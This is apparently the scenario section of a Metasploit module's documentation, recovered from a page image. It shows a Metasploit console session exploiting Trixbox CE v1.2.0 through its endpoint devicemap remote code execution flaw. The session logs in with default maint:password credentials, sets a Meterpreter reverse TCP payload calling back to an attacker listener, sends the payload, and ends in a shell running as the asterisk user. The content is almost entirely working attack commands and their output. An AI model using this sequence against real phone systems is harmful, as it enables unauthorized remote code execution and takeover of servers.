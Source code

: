 ```
meterpreter > shell
Process 14144 created.
Channel 1 created.
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
whoami
asterisk
```

### Trixbox CE v1.2.0
```
msf5 > use exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce 
msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > show options

Module options (exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  password         yes       Password to login with
   HttpUsername  maint            yes       User to login with
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80               yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Linux Dropper)


msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set LHOST 192.168.205.1
LHOST => 192.168.205.1
msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set SRVHOST 192.168.205.1
SRVHOST => 192.168.205.1
msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set RHOSTS 192.168.205.148
RHOSTS => 192.168.205.148
msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > exploit

[*] Started reverse TCP handler on 192.168.205.1:4444 
[*] 192.168.205.148:80 - Authenticating using "maint:password" credentials...
[+] 192.168.205.148:80 - Authenticated successfully.
[+] 192.168.205.148:80 - Trixbox CE v1.2.0 identified.
[*] 192.168.205.148:80 - Sending payload (150 bytes)...
```